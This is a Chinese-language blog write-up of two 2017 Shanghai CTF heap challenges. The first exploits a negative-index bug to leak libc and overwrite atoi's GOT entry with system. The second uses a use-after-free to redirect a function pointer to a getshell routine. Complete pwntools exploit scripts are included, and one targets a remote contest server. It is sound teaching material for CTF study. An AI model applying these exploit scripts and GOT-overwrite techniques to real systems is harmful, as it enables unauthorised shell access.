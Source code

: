 ```yaml
---
title: 上海ctf2017 pwn100 && pwn200
authorId: hac425
tags:
  - heap
categories:
  - ctf
date: 2017-11-05 23:32:00
---
```

### 前言
尽量详细，给有需要的学弟们看看
分析的 idb 文件在这：

https://gitee.com/hac425/blog_data/tree/master/shanghaictf

### pwn100
程序是一个经典的 堆管理程序，基本增删改查功能。


![paste image](http://oy9h5q2k4.bkt.clouddn.com/15098962009599uzwpyqa.png?imageslim)

`add` 功能很正常，分配8字节的内存然后写入8字节内容。把 分配到的 `heap`指针存到 `table` 中，然后 `count++` 
![paste image](http://oy9h5q2k4.bkt.clouddn.com/1509896434623h6e9584f.png?imageslim)

我们调试看看，使用 `add` 功能然后 看看堆的内容

![paste image](http://oy9h5q2k4.bkt.clouddn.com/15098965027379oqb1bwg.png?imageslim)

可以看到尽管 `malloc(8)` 实际会分配 `0x20` 字节（0x10 chunk结构 + 8 + 8 字节 对齐padding）
所以这里应该没有溢出的问题，但是注意 `count` 变量会索引到下一个没有使用的 `table` 表项。

这个程序的问题在于，在 `get_last`, `edit` 时会直接使用 `table[count] ` 来获取要处理的指针， 而且在 `delete` 时就只是简单的 `count--`,而且`count` 是一个有符号整数。这样多次 `delete` 后，`count` 会变成 负数。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1509934315611x779r1bk.png?imageslim)

然后 通过`table[count] `（`*(table + count*8)`） ,这样我们就可以通过`get_last`, `edit`来 泄露内存和 修改内存了。


`ctf` 中利用漏洞的目标一般就是执行 `system('sh')`,在这里我们可以通过修改 `got` 表中`atoi`函数的指针为 `system` 的函数，然后在调用 `atoi` 函数时，就会去调用 `system` 函数了。为什么要选择 `atoi` 函数作为目标呢？

![paste image](http://oy9h5q2k4.bkt.clouddn.com/15099347624636c7nenso.png?imageslim)
在打印程序的菜单后，会要我们输入一个选项，这就会调用这个函数，可以看到他会读取 `16` 字节到 `nptr`, 然后传到 `atoi`,如果我们把 `atoi` 改成`system`, 然后输入 `sh` , 就会执行 `system('sh')` 了，目标达到。

由于是这样获取内存地址： `*(table + count*8)`， 所以我们需要在 `table` 的上面（就是地址 < table的地址） 区域找到一个 指向 `got` 的指针。我们可以使用 `pwndbg` 的 `searchmem` 来搜索

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1509935326266sve8pr7a.png?imageslim)

属于

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1509935380746in5n7zt4.png?imageslim)

那么现在利用的思路就很清晰了。
 - 首先多次调用 `delete` 函数使得 `table + count*8` 指向 这里的 `atoi` 函数对应的地址，也就是 `0x400588`.

- 然后我们就可以通过 `get_last` 功能打印 `atoi` 函数的地址，通过`atoi` 在 `libc` 中的固定偏移，泄露 `libc` 的地址。

- 然后获取 `system` 函数地址，然后使用 `edit` 修改 `atoi` 函数的地址改成 `system`函数地址。然后输入`sh`  即可。

exp(要跑 20几分钟左右):

```
from pwn import *

# context.log_level = 'debug'
p = process("./list")

puts_plt = 0x602018


def add(content):
    p.recvuntil("5.Exit\n")
    p.sendline("1")
    p.recvuntil("Input your content:\n")
    sleep(0.5)
    p.sendline(content)


def get_last_content():
    p.recvuntil("5.Exit\n")
    p.sendline("2")
    p.recvuntil('4.Delete')
    p.recvuntil('5.Exit\n')
    content = p.recvuntil("5.Exit\n")
    addr = u64(content[:6].ljust(8, '\x00'))
    hexdump(content)
    hexdump(content)
    return addr


def edit(content):
    p.sendline("3")
    sleep(0.5)
    p.send(content)


def delete():
    p.recvuntil("5.Exit\n")
    p.sendline("4")

# alloc 3 chunk before to 3


def get_count_to_addr(addr):
    time = 0x602080 + 3 * 8 - addr
    time = time / 8

    print time
    for i in range(time):
        # sleep(0.5)
        delete()


gdb.attach(p)

add("B" * 8)
add("B" * 8)
add(p64(puts_plt))
pause()


get_count_to_addr(0x400588)

print "modify the count to fushu"
pause()

print "::::" * 10

atoi_addr = get_last_content()
libc_addr = atoi_addr - 0x36e80
system_addr = libc_addr + 0x45390

log.success("system: " + hex(system_addr))

edit(p64(system_addr))

log.success("modify atoi---> system")

p.sendline("sh")

p.interactive()


# bp 0x0400924


```



### pwn200
就是用`c++` 写的程序比较难看，不过看到程序的菜单，漏洞就很清楚了。
![paste image](http://oy9h5q2k4.bkt.clouddn.com/1509936031356ptc0dds9.png?imageslim)
提示的很明显了，应该是 `uaf`, 那我们就重点看看与内存分配相关的位置。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1509936258753devxv5lf.png?imageslim)

首先会分配两个结构体，其中开始8字节被写入了函数的指针。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1509936430537ciumch55.png?imageslim)
可以看到内存块的大小为 `0x40` 大小。通过 `new(0x30)` 分配得到，所以 `new` 和 `malloc` 的分配方式应该是一样的。接着往下看。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/150993658543336ohfyxh.png?imageslim)
选择`2` 时，可以有我们提供大小，传到 `new` ,然后通过 `read` 写入内容。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1509936668993dl8aosz9.png?imageslim)


`free` 时会调用 `delete`  释放掉内存块。`free` 之后可以看到进入了`fastbin` 
![paste image](http://oy9h5q2k4.bkt.clouddn.com/15099367564697zfv0v57.png?imageslim)
那此时我们使用 `2` 号功能，连续分配两块 `48`(0x30) 字节的内存，就会拿到这两块内存了。


程序中内置了`getshell`函数

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1509937226801kdjz5ggb.png?imageslim)

所以我们在拿到那两块内存后，把开始 8 字节写成 `getshell-8` 函数的地址就行了。（减8的原因看下图）
然后使用 `1` 功能，就能调用了。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1509937318915n5tt0od8.png?imageslim)

exp中把 开始 8 字节改成了  `0x0602D50`
![paste image](http://oy9h5q2k4.bkt.clouddn.com/1509946173632ju0gczy8.png?imageslim)
exp:

```
from pwn import *

# p = process("./p200")
p = remote("106.75.8.58", 12333)
context.log_level = 'debug'

get_shell = p64(0x0602D50)

payload = get_shell
payload += "A" * (48 - len(payload))

# gdb.attach(p)
p.recvuntil("1. use, 2. after, 3. free\n")
p.sendline('3')
# 先释放掉那两个块
pause()

p.recvuntil("1. use, 2. after, 3. free\n")
p.sendline("2")
p.recvuntil("Please input the length:\n")
p.sendline("48")

sleep(0.5)

p.sendline(payload)
pause()

sleep(0.5)

p.recvuntil("1. use, 2. after, 3. free\n")
p.sendline("2")
p.recvuntil("Please input the length:\n")
p.sendline("48")
sleep(0.5)
p.sendline(payload)

# 分配两个块，占用刚刚释放的块， 开始8字节 为 0x0602D50
pause()

sleep(0.5)

p.sendline("1")
p.interactive()

```